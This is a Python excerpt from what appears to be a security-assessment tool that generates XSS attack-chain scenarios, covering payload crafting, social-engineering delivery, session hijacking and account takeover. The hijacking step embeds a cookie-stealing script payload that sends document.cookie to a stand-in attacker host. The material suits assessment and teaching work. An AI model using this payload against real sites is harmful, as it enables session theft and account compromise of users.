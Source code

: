 ```python
    def _develop_xss_exploitation_scenarios(self, field: str, vulnerabilities: List[Dict[str, Any]]) -> List[Dict[str, Any]]:
        """
        Develop XSS exploitation scenarios
        """
        scenarios = []
        
        for vulnerability in vulnerabilities:
            if vulnerability['vulnerability_type'] == 'Reflected XSS':
                scenarios.append(self._create_reflected_xss_scenario(field, vulnerability))
            elif vulnerability['vulnerability_type'] == 'DOM-based XSS':
                scenarios.append(self._create_dom_xss_scenario(field, vulnerability))
            elif vulnerability['vulnerability_type'] == 'Event-based XSS':
                scenarios.append(self._create_event_xss_scenario(field, vulnerability))
        
        return scenarios
    
    def _create_reflected_xss_scenario(self, field: str, vulnerability: Dict[str, Any]) -> Dict[str, Any]:
        """
        Create reflected XSS exploitation scenario
        """
        return {
            'type': 'Reflected XSS Attack Chain',
            'field': field,
            'attack_steps': [
                {
                    'step': 1,
                    'description': 'Craft malicious payload',
                    'payload': vulnerability['payload'],
                    'objective': 'Create payload that executes JavaScript in victim browser'
                },
                {
                    'step': 2,
                    'description': 'Social engineering delivery',
                    'method': 'Email or social media link',
                    'objective': 'Trick victim into clicking malicious link'
                },
                {
                    'step': 3,
                    'description': 'Session hijacking',
                    'payload': "<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>",
                    'objective': 'Steal victim session cookies'
                },
                {
                    'step': 4,
                    'description': 'Account takeover',
                    'method': 'Use stolen session to impersonate victim',
                    'objective': 'Gain unauthorized access to victim account'
                }
            ],
            'impact': 'Complete account compromise and data theft',
            'prevention': 'Input validation, output encoding, CSP headers'
        }
    
    def _calculate_xss_risk_rating(self, vulnerabilities: List[Dict[str, Any]]) -> str:
        """
        Calculate XSS risk rating
        """
        if not vulnerabilities:
            return 'LOW'
        
```